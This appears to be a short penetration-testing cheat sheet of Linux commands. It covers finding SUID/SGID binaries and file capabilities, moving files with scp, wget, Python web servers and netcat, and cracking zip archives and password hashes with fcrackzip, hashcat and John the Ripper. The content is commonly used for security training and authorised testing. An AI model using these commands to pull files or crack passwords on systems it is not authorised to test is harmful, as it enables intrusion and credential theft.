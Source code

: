 ### Finding Binaries

* `find . - perm /4000` (user id uid) 
* `find . -perm /2000` (group id guid)
* `find / -perm /6000 2>/dev/null` (SUID and GUID)

### Finding File capabilites
```bash
$ getcap -r / 2>/dev/null
```

### Finding text in a files
```bash
$ grep -rnw '/path/to/somewhere/' -e 'pattern'
```

### Changing file attributes
- `chattr + i filename` making file immutable
- `chattr -i filename` making file mutable
- `lschattr filename` checking file attributes

### Uploading Files
- `scp file/you/want user@ip:/path/to/store `
- `python -m SimpleHTTPServer [port]` By default will listen on 8000
- `python3 -m http.server [port]` By default will listen on 8000

### Downloading Files
```bash
$ wget http://<ip>:port/<file>
```

### Netcat to download files from target
- `nc -l -p [port] > file` Receive file
- `nc -w 3 [ip] [port] < file` Send file 

### Cracking Zip Archive
```bash
$ fcrackzip -u -D -p <path_to_wordlist> <archive.zip>
```

### Cracking Hash
- Hashcat, check the modes [here](https://hashcat.net/wiki/doku.php?id=example_hashes):

    ```bash
    $ hashcat -m <hash_mode> -a 0 hash.txt /usr/share/wordlists/rockyou.txt
    ```

- John. check the formats [here](http://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats):

    ```bash
    $ john --format=<format> --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
    ```
